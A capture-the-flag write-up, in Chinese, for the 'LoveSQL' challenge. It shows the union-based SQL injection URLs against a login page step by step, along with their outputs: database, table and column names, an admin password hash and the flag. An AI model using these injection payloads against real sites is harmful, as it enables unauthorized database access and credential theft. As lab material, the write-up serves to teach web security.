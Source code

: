 # [极客大挑战 2019]LoveSQL

打开是一个登录的窗口，根据题目意思是要进行SQL注入

## 查询数据库
`/check.php?username=aaa'select+1,2,database()%23&password=bbb`
geek

## 查询表
`/check.php?username=aaa'+union+select+1,2,group_concat(table_name)+from+information_schema.tables+where+table_schema='geek'%23&password=bbb`
geekuser,l0ve1ysq1

## 查询字段
`/check.php?username=aaa'+union+select+1,2,group_concat(column_name)+from+information_schema.columns+where+table_name='geekuser'%23&password=bbb`
id,username,password

`/check.php?username=aaa'+union+select+1,2,group_concat(column_name)+from+information_schema.columns+where+table_name='l0ve1ysq1'%23&password=bbb`
id,username,password

## 查询数据
`/check.php?username=aaa'+union+select+1,2,group_concat(id,username,password)+from+geekuser%23&password=bbb`
1 admin e9021ff98565d8fe1a566ee12a121ba2

`/check.php?username=aaa'+union+select+1,2,group_concat(id,username,password)+from+l0ve1ysq1%23&password=bbb`
flag{66e7f374-ba3f-43be-9cea-b11bb4a994d3}
